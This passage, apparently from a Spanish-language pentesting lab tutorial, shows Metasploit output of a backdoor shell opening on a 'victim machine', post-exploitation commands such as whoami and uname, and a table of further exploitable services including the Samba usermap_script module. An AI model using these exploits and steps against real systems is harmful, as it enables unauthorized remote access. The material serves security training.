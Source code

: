 
#### 🔥 Resultado esperado:

```bash
[*] Backdoor service has been spawned, handling...
[*] Command shell session 1 opened
```

¡Has conseguido una **shell remota** en la máquina víctima! 😎

---

### ✅ Qué puedes hacer ahora

Dentro de la shell puedes ejecutar comandos como:

```bash
whoami
uname -a
ls /home
```

---

### 🧪 OTROS SERVICIOS QUE PUEDES EXPLOTAR

| Servicio               | Vulnerabilidad       | Exploit                              |
| ---------------------- | -------------------- | ------------------------------------ |
| Telnet (`port 23`)     | Sesión sin login     | Manual                               |
| Samba (`port 139/445`) | Samba usermap script | `exploit/multi/samba/usermap_script` |
